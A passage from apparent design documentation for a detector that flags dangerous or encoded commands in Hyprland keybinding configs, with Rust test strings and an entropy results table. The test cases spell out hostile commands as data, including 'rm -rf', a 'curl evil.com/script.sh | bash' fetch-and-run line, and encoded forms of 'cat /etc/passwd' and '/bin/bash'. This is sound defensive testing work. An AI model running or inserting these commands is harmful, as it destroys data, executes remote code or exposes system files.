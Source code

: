 **Analysis:**
- Padding character '=' always appears at the end
- Reduces character distribution uniformity
- Small but measurable impact on entropy
- More significant for short strings

---

### 3.3 Validation Methodology

#### How the Thresholds Were Determined

**Step 1: Generate Test Cases (30+ test functions covering multiple scenarios)**

```rust
// Categories tested:
// 1. Normal commands (should pass)
"bind = SUPER, K, exec, firefox"
"bind = SUPER, Return, exec, alacritty"
"bind = SUPER_SHIFT, Q, killactive"

// 2. Dangerous but unencoded (should be caught by other rounds)
"bind = SUPER, D, exec, rm -rf ~/*"
"bind = SUPER, X, exec, curl evil.com/script.sh | bash"

// 3. Base64 encoded commands (should be caught by entropy)
"bind = SUPER, H, exec, Y2F0IC9ldGMvcGFzc3dk"          // "cat /etc/passwd"
"bind = SUPER, R, exec, cm0gLXJmIC8="                  // "rm -rf /"
"bind = SUPER, B, exec, L2Jpbi9iYXNo"                  // "/bin/bash"

// 4. Hex encoded commands (should be caught by entropy)  
"bind = SUPER, E, exec, 726d202d7266202f"              // "rm -rf /"
"bind = SUPER, P, exec, 2f62696e2f626173680a"          // "/bin/bash\n"

// 5. Edge cases
"bind = SUPER, U, exec, uuencode"                      // Looks like base64 but isn't
"bind = SUPER, C, exec, DEADBEEF"                      // Short hex, low entropy
"bind = SUPER, T, exec, test1234"                      // Alphanumeric but normal
```

**Step 2: Calculate Entropy for Each**

```rust
// Measurement script (simplified):
for test_case in test_cases {
    let dispatcher = extract_dispatcher(&test_case);
    let entropy = calculate_entropy(dispatcher);
    println!("{}: {:.2} bits/char", dispatcher, entropy);
}
```

**Step 3: Categorise Results**

| Category | Count | Entropy Range | Should Detect? |
|----------|-------|---------------|----------------|
| Normal commands | 10 | 2.0 - 4.2 bits | No |
| Dangerous unencoded | 5 | 2.5 - 4.5 bits | Yes (other rounds) |
| Base64 encoded | 8 | 3.8 - 4.5 bits | Yes (entropy) |
| Hex encoded | 5 | 2.8 - 3.9 bits | Yes (entropy + structure) |
| Edge cases | 2 | 1.5 - 3.0 bits | No |

